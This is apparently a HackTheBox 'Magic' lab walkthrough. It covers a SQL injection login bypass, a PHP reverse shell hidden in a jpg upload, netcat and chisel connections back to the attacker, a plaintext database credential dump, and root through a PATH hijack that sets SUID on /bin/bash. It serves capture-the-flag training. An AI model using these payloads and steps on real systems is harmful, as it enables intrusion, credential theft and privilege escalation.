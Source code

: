 ```yaml
---
title: "Magic"
date: 2025-05-19
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Magic

![](../assets/Pasted%20image%2020250519225835.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.185
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 23:06 CEST
Nmap scan report for 10.10.10.185
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   40.32 ms 10.10.14.1
2   40.62 ms 10.10.10.185

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.41 seconds
```

Port `80` shows a site about magic pictures made in `PHP`.

![](../assets/Pasted%20image%2020250519231718.png)

Searching the bottom right number (it's hex for magic), we find information about a PHP type juggling vulnerability.

There is a login form at `/login.php` that is vulnerable to SQLi.

![](../assets/Pasted%20image%2020250519231941.png)

Intercept the request with `Caido` and put `' OR '1'='1'-- -` in the password field to bypass authentication.

![](../assets/Pasted%20image%2020250520001804.png)

![](../assets/Pasted%20image%2020250520001731.png)

## Initial Access

To bypass the file whitelist (`jpg`, `jpeg`, `png`), put a PHP reverse shell in a normal jpg file.

![](../assets/Pasted%20image%2020250520100330.png)

Upload the file with a double extension `.php.jpg` and go to the path where all images are uploaded: `/images/uploads/`.

![](../assets/Pasted%20image%2020250520104057.png)

So, put a bash reverse shell and start a listener.

![](../assets/Pasted%20image%2020250520131228.png)

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 51236
bash: cannot set terminal process group (1229): Inappropriate ioctl for device
bash: no job control in this shell
www-data@magic:/var/www/Magic/images/uploads$ whoami
whoami
www-data
www-data@magic:/var/www/Magic/images/uploads$ 
```

## Privilege Escalation

Examining the app, we find the database config.

![](../assets/Pasted%20image%2020250520133333.png)

And there is a `mysql` instance on `3306`.

```shell
ss -ntplu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
udp    UNCONN   0        0                 0.0.0.0:54434          0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:5353           0.0.0.0:*     
udp    UNCONN   0        0           127.0.0.53%lo:53             0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:68             0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:631            0.0.0.0:*     
udp    UNCONN   0        0                    [::]:5353              [::]:*     
udp    UNCONN   0        0                    [::]:53480             [::]:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
tcp    LISTEN   0        128         127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   0        5               127.0.0.1:631            0.0.0.0:*     
tcp    LISTEN   0        128                     *:80                   *:*     
tcp    LISTEN   0        128                  [::]:22                [::]:*     
tcp    LISTEN   0        5                   [::1]:631               [::]:*
```

So, expose the port with `chisel`.

```shell
$ ./chisel server --port 5555 --reverse
2025/05/20 13:50:12 server: Reverse tunnelling enabled
2025/05/20 13:50:12 server: Fingerprint zxld6D6IlWWZXhFcL+dvetmj/NbXygDLvjuOJoR6IaQ=
2025/05/20 13:50:12 server: Listening on http://0.0.0.0:5555
2025/05/20 13:50:24 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening

www-data@magic:/tmp$ ./chisel client 10.10.14.11:5555 R:3306:localhost:3306
./chisel client 10.10.14.11:5555 R:3306:localhost:3306
2025/05/20 04:43:07 client: Connecting to ws://10.10.14.11:5555
2025/05/20 04:43:08 client: Connected (Latency 44.137534ms)
```

And connect to the database.

```shell
$ mysql -u theseus -P 3306 -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10214
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.043 sec)

MySQL [(none)]> use magic;
ERROR 1044 (42000): Access denied for user 'theseus'@'localhost' to database 'magic'
MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.043 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.041 sec)

MySQL [Magic]> exit
Bye
```

Pivot to `theseus`:

```shell
www-data@magic:/var/www/Magic/images/uploads$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@magic:~$ whoami
whoami                                                                                          
theseus
```

Get the flag

```shell
theseus@magic:~$ cat user.txt
cat user.txt
8892373356de16931deba839326cf201
```

![](../assets/Pasted%20image%2020250520140539.png)

Using `ltrace` on `sysinfo` we notice

![](../assets/Pasted%20image%2020250520182234.png)

It calls `fdisk` without the full path.

```shell
$ cat fdisk
chmod +s /bin/bash
```

Add `/tmp` to the user's path and execute:

```shell
theseus@magic:/tmp$ export PATH="/tmp:$PATH"
export PATH="/tmp:$PATH"
theseus@magic:/tmp$ syinfo
syinfo
```

```shell
theseus@magic:/tmp$ ls -alh /bin/bash
ls -alh /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

```shell
theseus@magic:/tmp$ bash -p
bash -p
bash-4.4# whoami
whoami
root
```

## Post Exploitation

```shell
cat root.txt
bcc1fd50a588e421e53dc5e054de001a
```
